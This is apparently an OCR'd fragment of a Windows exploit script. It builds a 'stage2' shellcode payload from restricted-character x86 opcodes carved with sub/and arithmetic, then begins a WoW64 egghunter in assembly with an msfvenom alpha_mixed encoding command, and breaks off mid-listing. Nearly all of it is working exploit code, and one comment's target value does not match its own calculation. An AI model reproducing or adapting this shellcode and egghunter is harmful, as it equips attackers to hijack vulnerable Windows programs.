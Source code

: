 ```python
stage2 += "\x25\x35\x32\x31\x2a"

# set eax to 0x9090e0ff
# '0x' + sub(sub(sub(0x0, 0x25257575), 0x25247565), 0x25253427).toString(16).padStart(8, '0') = '0x9090e0ff'
#
# metasm > sub eax, 0x25257575
stage2 += "\x2d\x75\x75\x25\x25"
# metasm > sub eax, 0x25247565
stage2 += "\x2d\x65\x75\x24\x25"
# metasm > sub eax, 0x25253427
stage2 += "\x2d\x27\x34\x25\x25"
# metasm > push eax
stage2 += "\x50"

# set eax to 0
# function and(a, b) { return a & b }
# '0x' + and(0x554e4d4a, 0x2a313235).toString(16).padStart(8, '0') = 0x00000000
# metasm > and eax, 0x554e4d4a
stage2 += "\x25\x4a\x4d\x4e\x55"
# metasm > and eax, 0x2a313235
stage2 += "\x25\x35\x32\x31\x2a"

# set eax to 0x0019f77c
# function sub(a, b) { return Uint32Array.from([a - b])[0] }
# '0x' + sub(sub(sub(0x0, 0x553b7028), 0x55557828), 0x5555203c).toString(16).padStart(8, '0') = '0x0019f774'
#
# metasm > sub eax, 0x553b7028
stage2 += "\x2d\x28\x70\x3b\x55"
# metasm > sub eax, 0x55557828
stage2 += "\x2d\x28\x78\x55\x55"
# metasm > sub eax, 0x5555203c
stage2 += "\x2d\x3c\x20\x55\x55"


# egghunter win10 wow64
# tested on Microsoft Windows 1809 [Version 10.0.17763.805]
# build it with:
# nasm -felf32 egghunter.asm -o egghunter.o && for i in $(objdump -d ./egghunter.o | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$') ; do echo -ne "\x$i" ; done | msfvenom -p- --arch x86 --platform windows -e x86/alpha_mixed BUFFERREGISTER=eax
"""
BITS 32
global _start
section .text

_start:
    mov    ebx, cs
    cmp    bl, 0x23
    xor    edx, edx
page_invalid:
    or     dx, 0xfff
page_valid:
    xor    ebx, ebx
    inc    edx
    push   ebx
    push   ebx
    push   edx
    push   ebx
    push   ebx
    push   ebx
    push   0x29
```